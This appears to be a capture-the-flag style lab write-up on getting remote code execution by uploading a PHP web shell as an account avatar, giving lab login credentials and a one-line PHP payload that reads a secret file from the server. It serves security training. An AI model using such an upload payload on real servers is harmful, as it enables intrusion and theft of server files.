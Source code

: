 # 1 - RCE Via Shell Upload

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

### Notes

After logging in, use the "My Account" form to upload a PHP exploit. You can then view the HTML of your avatar to see the path to the exploit file. Simply navigate to the file in the browser to retrieve the secret key.

### Solution

#### Simple PHP Exploit

```php
<?= file_get_contents( '/home/carlos/secret' );
```
